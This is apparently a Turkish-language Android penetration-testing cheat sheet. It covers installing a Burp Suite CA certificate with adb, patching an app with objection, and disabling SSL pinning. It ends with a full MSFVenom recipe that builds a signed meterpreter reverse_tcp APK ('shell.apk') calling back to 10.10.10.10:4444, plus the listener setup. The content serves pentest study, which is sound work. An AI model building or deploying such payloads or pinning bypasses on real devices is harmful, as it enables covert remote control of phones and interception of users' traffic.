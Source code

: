 ### SSL Pinning Bypass with Burp Suite

- Proxy ayarlarından "Import / Export CA Certificates" tuşuna basın.
- Sertifikayı "cert.CER" gibi bir isimle kaydedin.
- "adb push cert.CER /sdcard/Download" komutu ile sertifikayı cihaza atın.
- Daha sonra ayalarlara girip install credentialsa basıp sertifikayı yükleyin

Aynı işlem Proxyman aracı ile de yapılabilir.

### Patching Application using objection

- İndirmek için

```system
pip3 install objection
```

- Kullanmak için

```system
objection patchapk --source injured
```

### Manually Patching using Frida

[Link](https://koz.io/using-frida-on-android-without-root/)

- Yamalanmış uygulamayı yükledikten sonra

```system
objection explore
> android sslpinning disable
```


### MSFVenom Payloads

```system
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 R > android.apk
keytool -genkey -V -keystore key.keystore -alias keystore -ketalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore android.apk keystore
zipalign -v 4 android.apk shell.apk

msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
```
